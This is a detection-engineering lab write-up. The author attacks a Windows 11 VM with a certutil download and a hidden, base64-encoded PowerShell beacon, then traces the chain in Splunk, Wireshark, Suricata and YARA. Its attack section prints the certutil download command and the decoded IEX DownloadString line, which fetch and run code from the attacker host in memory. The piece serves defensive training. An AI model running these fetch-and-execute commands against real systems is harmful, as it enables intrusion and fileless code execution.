# Homelab LOLBin Attack Chain and Detection

**Platform:** Self-built homelab (VirtualBox)
**Role:** Detection engineering / SOC analysis
**OS:** Windows 11 (victim), Windows Server 2022 DC, Kali Linux (attacker + SIEM)
**Date:** 2026-09-12

---

## Overview

I built an Active Directory lab from scratch, instrumented the Windows 11 endpoint with **Sysmon**, forwarded its logs to **Splunk** running on Kali, then executed a multi-stage attack against it and hunted the full chain in the SIEM. The attack chains a **certutil LOLBin download** (T1105) into a **hidden encoded PowerShell in-memory beacon** (T1059.001 / T1027) that calls back to attacker infrastructure at **`hxxp[://]192[.]168[.]56[.]30:8080/beacon`**. Detection was performed end to end in Splunk using Sysmon Event ID 1, the payload was analyzed statically with `strings` and `sha256sum`, and a custom **YARA** rule was written to convert a single finding into fleet-wide hunting.

**Environment:**

| Host | Role | IP |
|------|------|-----|
| Kali Linux | Attacker + Splunk SIEM | 192.168.56.30 |
| WIN11-Client | Victim endpoint (Sysmon + forwarder) | 192.168.56.20 |
| DC01 | Domain controller (lab.local) | 192.168.56.10 |

---

## Lab Build

The endpoint was instrumented before any attack so every action would be recorded:

- **Sysmon** installed with the SwiftOnSecurity config for process, network, and registry telemetry
- **Command line auditing** enabled so Event ID 4688 captures full command lines
- **Splunk Universal Forwarder** shipping the Security and Sysmon channels to Splunk on Kali over port 9997



**Both channels confirmed flowing:** WinEventLog:Security and WinEventLog:Microsoft-Windows-Sysmon/Operational.

> Note: Microsoft Defender blocked the initial certutil download, which is the expected control working as designed. It was disabled in the lab so the full chain could execute for detection engineering. In a real intrusion an attacker would evade Defender through the fileless techniques shown below rather than disable it.

---

## Attack Execution

### Attacker infrastructure (Kali)

A Python web server hosted the payload `update.exe` (a benign file carrying the EICAR test string plus a unique marker), and `tcpdump` captured all traffic on port 8080.



### Stage 1: Ingress tool transfer via certutil (T1105)

From a normal user shell on WIN11, a trusted Windows binary pulled the payload from the attacker:

```
certutil.exe -urlcache -split -f http://192.168.56.30:8080/update.exe C:\Users\localuser\Downloads\update.exe
```



certutil is a legitimate certificate tool. It has no business downloading files, which is exactly why attackers abuse it. It is trusted, signed, and rarely blocked.

### Stage 2: Hidden encoded PowerShell beacon (T1059.001 / T1027)

```
powershell.exe -nop -w hidden -enc <base64>
```



### Attacker callback confirmed

The web server logs show the victim retrieving the payload (GET /update.exe, 200) and beaconing back (GET /beacon):



---

## Detection in Splunk

### Phase 1: Scope the endpoint activity

A broad search establishes how much Sysmon data is in play for the host.

```
index=main host="WIN11-Client" sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
```



**557 Sysmon process-creation events (EventCode 1) in the last hour.**

### Phase 2: Detect the certutil LOLBin download

```
index=main host="WIN11-Client" EventCode=1 Image="*certutil.exe" | table _time, User, ParentImage, CommandLine
```



Reading the log:

- **CommandLine** shows certutil reaching out to an IP over HTTP to pull an .exe. The `-urlcache` flag plus a URL is the download tell.
- **ParentImage** is powershell.exe, so a user shell spawned it, not an installer or update service.
- **User** is localuser, a standard non-admin account.

**Technique: T1105 Ingress Tool Transfer, using a LOLBin.**

### Phase 3: Detect the encoded PowerShell

```
index=main host="WIN11-Client" EventCode=1 CommandLine="*-enc*" | table _time, User, ParentImage, CommandLine
```



Three flags on one command line, each individually legitimate but damning together:

- **-nop** no profile, skips scripts that might log or restrict
- **-w hidden** no visible window, the user sees nothing
- **-enc** the payload is base64 encoded to hide it

An administrator does not hide and encode PowerShell at the same time. All three together is a high-confidence malicious indicator.

### Phase 4: Decode the payload in CyberChef

The base64 blob after `-enc` was decoded with a From Base64 then Decode text (UTF-16LE) recipe:



**Decoded command:**

```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.30:8080/beacon')
```

This pulls a remote script and runs it directly in memory with Invoke-Expression. Nothing is written to disk, which is why signature-based antivirus does not catch it. This is fileless execution.

**C2 indicator (defanged):** `hxxp[://]192[.]168[.]56[.]30:8080/beacon`

### Phase 5: Prove the chain with the process tree

```
index=main host="WIN11-Client" EventCode=1 (Image="*certutil.exe" OR CommandLine="*-enc*") | table _time, ParentImage, ParentProcessId, Image, ProcessId | sort _time
```



Every ParentImage is **powershell.exe**, and a single PowerShell process (ProcessId 8292) spawned both the certutil download and the encoded command. This is one shell session driving the entire attack. Parent-child process analysis is what turns a set of individually-normal events into a provable attack chain, and it is exactly what Sysmon Event ID 1 exists to capture.

---

## Network Analysis

The same attack was corroborated from the network side using the packet capture taken during execution. Host evidence and network evidence telling the same story is how an analyst confirms a finding.

### Reconstructing the attack in Wireshark

Opening `capture.pcap` and filtering on `http` shows the entire chain in six packets:



- **GET /update.exe** then **200 OK (application/x-msdos-program)**: the victim requests the payload and the attacker delivers it. The content type marks it as an executable.
- **GET /beacon** then **404**: the encoded PowerShell calls home. The path did not exist on the server, but the outbound request is the indicator, not the response.

This matches the endpoint logs exactly: two downloads followed by a beacon.

> Note: the victim appears as 192.168.56.1 rather than .20 because VirtualBox NATs host-only traffic through the host address. The sequence is unchanged.

### Suricata IDS alerts

The capture was replayed through Suricata with the Emerging Threats Open ruleset:

```
sudo suricata-update
sudo suricata -r ~/attack-lab/capture.pcap -l ~/attack-lab/ -k none
cat ~/attack-lab/fast.log
```



The meaningful hit is **ET INFO Python SimpleHTTP ServerBanner** (SID 2034636), which fingerprinted the attacker's web server by its traffic. Quick Python HTTP servers are a common way to stand up C2 and payload infrastructure, so the ruleset flags them. Suricata identified the attacker infrastructure from traffic alone, with no signature for the payload itself. The `SURICATA TCPv4 invalid checksum` alerts are capture artifacts from VM NIC checksum offload, not a security finding.

This is the network detection half of the picture. Sysmon and Splunk watched the endpoint; Suricata and Wireshark watched the wire. A real SOC uses both because some activity only shows on the host and some only on the network.

---

## File Analysis

The dropped payload was examined statically, without execution.

```
sha256sum update.exe
strings update.exe
```



- **SHA256:** 100c28a2542975949278c4d4e7d52cee24fb26143cc6b9903c8885b3707180aa
- `strings` surfaced the **EICAR** antivirus test signature and a unique hardcoded marker, **malbot_feed_2.3_beacon_kali**, without ever running the file.

In a real investigation the SHA256, not the file, is what you submit to VirusTotal, keeping a potentially sensitive sample out of a public platform.

### YARA rule for fleet-wide hunting

The unique marker is too specific to be accidental, so it becomes a signature. A three-section YARA rule (meta, strings, condition) was written and run against the lab folder:

```yara
rule Malbot_Beacon_Payload
{
    meta:
        description = "Detects malbot beacon payload dropped via certutil"
        author = "Robert"
        date = "2026-09-12"
    strings:
        $marker = "malbot_feed_2.3_beacon_kali"
        $eicar = "EICAR-STANDARD-ANTIVIRUS-TEST-FILE"
    condition:
        any of them
}
```



The rule matched three files: the payload `update.exe`, the packet capture `capture.pcap` (the string was recorded as the file crossed the wire, showing YARA works on network captures too), and the rule file itself (a self-match, excluded from the scan path in real hunting). This is the shift from reactive to proactive detection: a hash catches one exact file, but a pattern rule catches every variant carrying the marker, and it can be pushed across an entire fleet.

---

## MITRE ATT&CK Mapping

| Stage | Technique | ID |
|-------|-----------|-----|
| certutil payload download | Ingress Tool Transfer (LOLBin) | T1105 |
| Encoded PowerShell execution | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Base64 obfuscation of payload | Obfuscated Files or Information | T1027 |
| In-memory download and execute | Ingress Tool Transfer / fileless execution | T1105 |

Network detection: the capture was analyzed in Wireshark and replayed through Suricata (ET Open ruleset), which fingerprinted the attacker's Python HTTP server (SID 2034636).

---

## Indicators of Compromise

| Type | Value |
|------|-------|
| C2 URL | `hxxp[://]192[.]168[.]56[.]30:8080/beacon` |
| Payload SHA256 | 100c28a2542975949278c4d4e7d52cee24fb26143cc6b9903c8885b3707180aa |
| Unique string | malbot_feed_2.3_beacon_kali |
| Dropped file | C:\Users\localuser\Downloads\update.exe |
| Parent process | powershell.exe (PID 8292) |

---

## Remediation

- Alert on certutil.exe launched with `-urlcache` or `-split`, especially when the parent is an interactive shell. certutil rarely has a legitimate reason to fetch files.
- Alert on powershell.exe with `-enc`, `-nop`, and `-w hidden`, particularly all three together.
- Enable PowerShell Script Block Logging (Event ID 4104) and Constrained Language Mode to blunt encoded and in-memory execution.
- Keep Microsoft Defender and Tamper Protection enabled. Defender blocked the initial download here, and Tamper Protection is what stops an attacker from silently disabling it.
- Push the YARA rule to EDR for automated detection of the payload marker across all endpoints.

---

## Key Takeaways

- LOLBins like certutil let attackers download payloads with a trusted, signed binary that most controls will not block. The abuse is visible in the command line, not the binary name.
- The three PowerShell flags -nop, -w hidden, and -enc are individually benign but together form a high-confidence malicious signature.
- Encoded PowerShell that uses IEX and DownloadString runs entirely in memory, which is why it evades signature-based antivirus. Behavioral telemetry from Sysmon is what catches it.
- Parent-child process analysis is what proves an attack chain. A single powershell.exe parent spawning both certutil and an encoded command is the pattern, not either event alone.
- `strings` reveals a file's intent without executing it, and the SHA256 (not the file) is what goes to VirusTotal for a sensitive sample.
- A YARA rule turns one finding into proactive hunting. Hash detection catches one file, pattern detection catches every variant across the fleet.
